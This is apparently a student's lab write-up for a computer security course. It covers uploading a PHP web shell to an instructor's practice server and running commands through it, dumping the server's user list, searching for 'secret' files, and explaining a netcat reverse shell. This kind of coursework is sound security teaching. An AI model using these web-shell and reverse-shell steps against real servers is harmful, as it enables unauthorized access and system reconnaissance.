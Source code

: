 # Feraidon AbdulRahimzai
## CS338 - Computer Security
### Reverse Shell Assignment - 10/29/25



# Part 1: Installing a PHP Web Shell


#### a: 
- The way we can execute this linux command is by first uploading our shell written php into the website and then using the command ?command=whoami after the directory of uploadedimages/ along with the file we uploaded. In this case its: 

http://danger.jeffondich.com/uploadedimages/abdulf-webshell1.php?command=whoami

The results of this is:

www-data

#### b.

- The <pre> tag displays the output of system commands with its original formatting.



# Part 2: Looking Around

#### a: 

Danger's website is located in the /var/www/danger.jeffondich.com/uploadedimages and we get to this by using the command: pwd (previous working directory)


#### b: 

Below is the full output i got.

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:102:105::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:103:106:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
syslog:x:104:111::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:112:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:113::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:114::/nonexistent:/usr/sbin/nologin
usbmux:x:109:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
pollinate:x:111:1::/var/cache/pollinate:/bin/false
landscape:x:112:116::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:113:117:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
jeff:x:1000:1000:Jeff Ondich,,,:/home/jeff:/bin/bash
postgres:x:114:119:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
bullwinkle:x:1001:1001:Bullwinkle J. Moose,,,:/home/bullwinkle:/bin/bash
dhcpcd:x:115:65534:DHCP Client Daemon,,,:/usr/lib/dhcpcd:/bin/false
polkitd:x:999:999:User for polkitd:/:/usr/sbin/nologin


I got this information from: "https://www.strongdm.com/blog/how-to-list-users-linux",
the command getent passwd allowed me to get this printout.

#### c. 

I can't open the passwd file. The browser says "This site can't be reached" and says something about the firewall. But it contains the same stuff I was able to get with getent 

#### d. 

No, we don't have access to /etc/shadow and I think it has the passwords for the users that were outputted from the getent passwd command, they should be encrypted as well.

#### e.

Found the hi_jeff.txt "lazuli was here :) imagelist2.php is still up and usable", kindasecret.txt with the frog ascii, supersecret.txt with the moose ascii, moresectrets.txt, .even-more-secrets.txt, youfoundme.txt 

I found all of these by using the find command to look for all directories and files with the secret key word: command = find / -name "*secret*"



# Part 4: Launching a Reverse Shell


#### a.

I found my Kali VM IP address by executing the command ip a. 
eth0 inet 192.168.64.2 


#### b. 

I found the ip addr by commanding "ifconfig" and I found that 192.168.64.1 was my local ip. I would use this IP address because it is direct and a subnet of the IP address.

#### e. 

Yes, I do have a shell now and I can execute commands. I used the hostname command and it returned "kali"


#### f. 

The percents are used as encoding for things/signs such as spaces, double quotes, greater than sign and the ampersand that won't otherwise be understood by the url.

%20: Space ( )

%22: Double quote (")

%3E: Greater-than sign (>)

%26: Ampersand (&)

#### g. 

- Your host machine starts netcat in listen mode on a specific port (6000). It's passively waiting for any machine to connect to it on that port.

- On the Kali VM, we trigger the webshell with a command that tells a bash shell on Kali to initiate an outgoing TCP connection back to your attacker's IP and port (6000). This is the "reverse" part – the target connects to the attacker.

- Once the Kali VM connects to our netcat listener, netcat effectively "hands over" the connection to our terminal. Now, anything we type into that netcat terminal (our host OS) is sent to the bash process on Kali, and Kali's bash output is sent back to our netcat terminal. We now have an interactive shell on the Kali VM, controlled from our host.









